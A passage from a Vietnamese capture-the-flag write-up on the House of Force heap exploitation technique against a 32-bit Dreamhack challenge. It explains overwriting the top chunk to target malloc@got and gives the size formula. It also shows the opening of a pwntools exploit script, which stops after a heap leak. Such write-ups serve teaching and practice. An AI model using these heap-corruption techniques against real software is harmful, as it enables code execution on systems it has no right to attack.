 - lúc này top_chunk đã bị thay đổi thành giá trị mong muốn

![here](/assets/images/heap/house_of_force/change.png)

- trong bài này sẽ có hàm get_shell sẵn cho ta , ta có thể target đến các got cũng được vì bài này RELRO 1 phần thôi

- vì bài này là 32 bit nên target sẽ được tính như sau:

```target_size = malloc@got - top_chunk_address - 8```  

nếu là 64bit thì trừ đi 16 

- baì này không overwrite exit@got được vì thằng system ở trước exit@got   , và nó sẽ bị hỏng



exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./house_of_force_patched',checksec=False)

#p = process()
p = remote('host1.dreamhack.games', 20770)

#gdb.attach(p,gdbscript='''
 #          b*0x08048864
 #          b*0x0804872c
 #          b*0x08048775
  #         ''')
input()
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'Size: ',b'16')
p.sendlineafter(b'Data: ',b'a'*16)

leak_heap = p.recvuntil(b':')[:-1]
print(leak_heap)


```